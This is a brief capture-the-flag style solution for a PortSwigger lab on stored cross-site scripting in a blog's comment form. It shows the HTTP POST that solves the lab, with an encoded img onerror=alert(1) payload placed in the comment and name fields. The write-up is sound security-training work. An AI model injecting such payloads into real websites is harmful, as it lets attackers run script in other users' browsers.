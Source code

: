 # [Lab: Stored XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded)

## Lab

This lab contains a stored cross-site scripting vulnerability in the comment functionality.

To solve this lab, submit a comment that calls the `alert` function when the blog post is viewed.

## tools

burpsuite scanner: detected `Cross-site scripting (stored)`

## Solutions

post a comment:

```http
POST /post/comment HTTP/1.1

csrf=70TIgkUJzoQ04u3B6Iguus6KDwyWM6EA&postId=8&comment=%3Cimg+src%3D1+onerror%3Dalert%281%29%3E&name=%3Cimg+src%3D1+onerror%3Dalert%281%29%3E&email=a%40a.a&website=
```
